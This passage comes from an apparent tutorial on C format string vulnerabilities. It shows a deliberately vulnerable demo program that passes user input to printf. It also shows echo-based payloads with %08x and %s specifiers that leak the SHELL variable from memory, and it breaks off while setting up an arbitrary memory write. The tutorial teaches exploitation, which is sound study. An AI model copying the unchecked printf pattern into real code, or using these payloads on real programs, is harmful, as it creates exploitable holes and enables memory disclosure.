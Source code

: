 When we run with `gdb -q ./demo`, the env var SHELL is loaded into memory address `0xffffd43F`.

There are differences in the memory addresses when we run the executable via gdb. These are usually due to differences in the environment variables. 

- GDB adds a 'LINES' and 'COUNT' env var, and also has a different length program name. 
- _ contains the path to the executable that was run, which is different depending on where we're running it from and whether we're running /usr/bin/gdb or /home/asdf/binary_path.


We'll look at this in more detail in a later video, but for now we can figure it out by writing some additional code inside our program to print out the exact address. 

```
#include <stdio.h>

void printWrapper(char *string){
        printf(string); // <--- Bad use of printf()
}

int main(int argc, char *argv[]){

        char print_me[5012];

        fgets(print_me, 4096, stdin); // <--- User controls format string

        printWrapper(print_me);

        char* ptr = getenv("SHELL");
        printf("\n\nMemory address of SHELL environment variable @ 0x%08x\n", ptr);

        return(0);
}


```


When we run it with `./demo`, the env var SHELL is loaded into memory address `0xffffd468`.

`echo "$(printf '\x68\xd4\xff\xff')%08x %08x %08x %s" | ./demo`
`h���ffffd228 080491b2 ffffbe94 SHELL=/bin/bash`

We can adjust to just print the /bin/bash string, which may be useful later.
`echo "$(printf '\x6E\xd4\xff\xff')%08x %08x %08x %s" | ./demo` 
`i���ffffd218 080491b2 ffffbe84 /bin/bash`


### 3) Writing to arbitrary memory

In order to demonstrate this, we will create a new variable in our demo program called `overwrite_me` and print out its address. We will then use a format string exploit to overwrite its value with something else.

```
#include <stdio.h>

void printWrapper(char *string){
        printf(string); // <--- Bad use of printf()
}

int main(int argc, char *argv[]){

        char print_me[5012];
        int overwrite_me = 0;

        fgets(print_me, 4096, stdin); // <--- User controls format string

        printWrapper(print_me);
```